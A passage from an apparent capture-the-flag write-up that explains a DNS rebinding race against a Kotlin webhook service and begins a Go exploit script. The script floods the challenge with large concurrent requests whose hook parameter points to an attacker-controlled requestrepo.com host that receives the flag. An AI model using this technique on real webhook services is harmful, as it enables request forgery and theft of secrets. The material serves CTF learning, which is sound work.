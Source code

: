 ```java
        return "{\"result\": \"fail\"}"
    }

    @PostMapping("/create", consumes = [MediaType.APPLICATION_JSON_VALUE])
    @ResponseBody
    fun create(@RequestBody body: StateType): String {
        for(h in State.arr) {
            if(body.hook == h.hook)
                return "{\"result\": \"fail\"}"
        }
        State.arr.add(body)
        return "{\"result\": \"ok\"}"
    }
}
```

And that's basically it! I love a short challenge that requires you to think outside the box and this definitely was the case here. You will notice that we iterate over every webhook in the array and then compare the URLs. If they are equal, we will send a request.

The trick here is knowing where the DNS resolves will occur. During the iteration it will compare the hook URL with our input and resolve the DNS here. Next, it replaces our template and finally it will do another DNS resolve to send the request.

The flag is stored in a webhook assigned to `example.com` which has IP address `93.184.215.14` and so what we would like here is for our domain to initially resolve to this IP (thus passing the equality check) but then change back to our webhook before it sends the request with the flag. This is known as a DNS rebinding attack.

We can expand the race window here by having a large body so the replace operation in the template takes a bit longer. I ended up having to write my exploits in Golang to achieve the race.

## Final Payloads
```go
package main

import (
        "bytes"
        "encoding/json"
        "fmt"
        "net/http"
        "sync"
)

const (
        url   = "https://webwebhookhook-5dbcb929250a3fff.i.chal.irisc.tf/webhook?hook=http://pwn.fl7mhi6b.requestrepo.com/admin"
        value = "A"
        size  = 500000
        workers = 10 // Number of concurrent goroutines
)

func main() {
        data := map[string]string{
                "abc": repeat(value, size),
        }

        payload, _ := json.Marshal(data)

        var wg sync.WaitGroup

        for i := 0; i < workers; i++ {
                wg.Add(1)
                go func() {
```